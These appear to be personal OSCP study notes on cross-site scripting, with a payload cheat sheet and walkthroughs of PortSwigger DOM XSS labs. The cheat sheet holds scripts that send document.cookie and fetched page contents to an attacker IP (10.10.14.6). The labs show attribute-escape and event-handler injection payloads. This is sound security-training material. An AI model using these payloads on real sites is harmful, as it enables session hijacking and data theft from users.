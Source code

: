 ```yaml
---
description: Do all of them, it don't matter if it feel stupid
---
```


# XSS & XXE

{% embed url="https://brandonrussell.io/OSCP-Notes/XXMore.html" %}

{% embed url="https://brandonrussell.io/OSCP-Notes/XXXEMore.html" %}

```
; breaks current command
// comments out rest
<script>alert(1)</script>
javascript:
Escaping attribute tags and payload using repo

#load image
<img src="http://10.10.14.6/image.png" onerror=alert(1)/>

#load script
<script src="http://10.10.14.6/script.js"></script>

#script.js
fetch('http://10.10.14.6/from_script/' + document.cookie);

#load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

{% embed url="https://github.com/payloadbox/xss-payload-list" %}

{% embed url="https://medium.com/@sevenoffsec/portswiggers-xss-labs-solved-with-explanation-part-1-678206556964" %}

{% embed url="https://infosecwriteups.com/zero-to-hero-dom-xss-d291d62432d8" %}

> Well, you should know when and how to spot XSS. Regarding OSCP exam, I don’t think XSS will be there since your goal is getting RCE on the target machine.
>
> Yes, some HTB boxes have “bot” which clicks on XSS link and then you see HTTP request on your server. But I don’t think this is going to appear in your exam.

> If the user-supplied input is printed inside an HTML attribute, you also need to escape quotation marks or you would be vulnerable inputs like this:
>
> ```xml
> " onload="javascript-code" foobar="
> ```
>
> You should also escape the ampersand character as it generally needs to be encoded inside HTML documents and might otherwise destroy your layout.
>
> So you should take care of the following characters: < > & ' "
>
> You should however not completely strip them but replace them with the correct HTML codes i.e. _\&lt; \&gt; \&amp; \&quot; \&#x27;_

## Define

### DOM XSS

Document Object Model

Data from attacker-controllable source (eg. URL) is passed to a 'sink' where dynamic code execution takes place

## Labs

### Lab 3 (DOM)

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Our goal is to escape the search query and execute our malicious code, so that's in the `trackSearch` funciton \[SINK]

Where do we enter this code? The query variable which fetches our input via `window.location.search`

```
'"><script>alert(1)</script>
```

### Lab 4 (DOM)

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

The `innerHTML` sink doesn’t accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements.

```
"><img src=x onerror=alert(1)>
```

### Lab 5 (DOM)

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

An XSS output should be seen visually so sending payloads via Repeater may not be the smartest play

Like before, try escape the query statement before executing script

{% code overflow="wrap" %}
```
https://website/product?productId=3&storeId=%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E
```
{% endcode %}

Burp showed GET method wasn't allowed so my guess is this was still sent via POST

### Lab 6 (XSS attribute encoded angle brackets)

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

As seen, we are working with the input tag, can't use `<script>` &#x20;

```
<input onfocus=javascript:alert(1) autofocus>
?search=a"onfocus%3Djavascript%3Aalert(1)+autofocus
```

`onfocus` basically performs the specific action when that field is clicked/used and `autofocus` does it auto
